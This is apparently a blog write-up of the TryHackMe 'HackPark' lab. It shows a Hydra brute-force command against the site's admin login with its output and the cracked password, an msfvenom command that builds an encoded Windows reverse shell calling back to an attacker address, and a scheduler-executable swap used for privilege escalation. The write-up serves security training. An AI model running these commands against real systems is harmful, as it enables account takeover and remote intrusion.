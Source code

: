 ```yaml
---
layout : post 
title: HackPark

date: 2021-04-22 01:43 EST

tags: [Hydra websiteBruteforce , Process Exe Path Override]
---
```


# Nmap 
```
PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack
3389/tcp open  ms-wbt-server syn-ack
```

# Exploitation 

Website admin bruteforce with hydra 

![]({{site.baseurl}}/img/tryhackme/hackpark/brut.png)

> it important to menction the error message 

![]({{site.baseurl}}/img/tryhackme/hackpark/failed.png)

```

hydra -l admin -P ~/rockyou.txt 10.10.86.83 http-post-form "/Account/login.aspx:__VIEWSTATE=jDoxXDrjvwtV4W%2B7cVh5zoKQkVZ9t%2FSNm3lRERD1airgV0UCIi2gSv7suGa%2F3Iv83L%2FnjMaEOUn%2B2SIg2B9qN7mf8%2FsEYBogwO0DjK07Mhvyihm5JDZV%2F%2F0Pp7wVtFNrijWXcN1PN4SApDMVAxQ%2BaNzwlKp0X0OM1PgyxpErgCMKK%2FaJLcS1woFajwAkMESCiaprqCg5R4Cig2KfjeWLPeC7ogZbXZNaJAEsJ%2BoQpwPxY0dxJsFtb2GxY9DhOyy3oPfWEEooFSzQ2ZSivOMA0EyvEYWNawgOalNHYnl3W%2FcFzosVCdU3E7qAB0vUCUpCKnY9A4i8uP3R87ahWdnf%2FGf52WtJT%2FTbpD0OZGWP%2BJrNmmS2&__EVENTVALIDATION=lNBF4usv%2B%2FRnlgoelQtKNrfqbZFS6GDvkUVwGD7jcg4M7jTX2h%2FDZZdlNM4ABS1t5eE339zVkw3Od4fZvs%2FVXUbMilHQmNSLdRGgG0TuFNrCgdomrs60cFVONFd78RZ%2Bh7cI1BNZAj6impwSNIn%2B43eohYXPf44sFcFQDZFn2Qzc723a&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:login Failed"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-22 04:39:40
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
```

**here it started attacking** 

```
[DATA] attacking http-post-form://10.10.86.83:80/Account/login.aspx:__VIEWSTATE=jDoxXDrjvwtV4W%2B7cVh5zoKQkVZ9t%2FSNm3lRERD1airgV0UCIi2gSv7suGa%2F3Iv83L%2FnjMaEOUn%2B2SIg2B9qN7mf8%2FsEYBogwO0DjK07Mhvyihm5JDZV%2F%2F0Pp7wVtFNrijWXcN1PN4SApDMVAxQ%2BaNzwlKp0X0OM1PgyxpErgCMKK%2FaJLcS1woFajwAkMESCiaprqCg5R4Cig2KfjeWLPeC7ogZbXZNaJAEsJ%2BoQpwPxY0dxJsFtb2GxY9DhOyy3oPfWEEooFSzQ2ZSivOMA0EyvEYWNawgOalNHYnl3W%2FcFzosVCdU3E7qAB0vUCUpCKnY9A4i8uP3R87ahWdnf%2FGf52WtJT%2FTbpD0OZGWP%2BJrNmmS2&__EVENTVALIDATION=lNBF4usv%2B%2FRnlgoelQtKNrfqbZFS6GDvkUVwGD7jcg4M7jTX2h%2FDZZdlNM4ABS1t5eE339zVkw3Od4fZvs%2FVXUbMilHQmNSLdRGgG0TuFNrCgdomrs60cFVONFd78RZ%2Bh7cI1BNZAj6impwSNIn%2B43eohYXPf44sFcFQDZFn2Qzc723a&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:login Failed
[STATUS] 1144.00 tries/min, 1144 tries in 00:01h, 14343255 to do in 208:58h, 16 active
[80][http-post-form] host: 10.10.86.83   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-22 04:40:57

```
`admin:1qaz2wsx`

# Exploitation

![]({{site.baseurl}}/img/tryhackme/hackpark/fileupload.png)

after uploading the file the LFI gave us ReverseShell

![]({{site.baseurl}}/img/tryhackme/hackpark/lfi.png)



# privEsc 
OverRiding the windows Sheduler Process Path

creating the reverseShell

```
 msfvenom -p windows/shell_reverse_tcp LHOST=10.9.202.83 LPORT=3333 -e x86/shikata_ga_nai -f exe -o Message.exe
```
![]({{site.baseurl}}/img/tryhackme/hackpark/got.png)
```
C:\Program Files (x86)\SystemScheduler>move c:\Windows\Temp\Message.exe ./
```
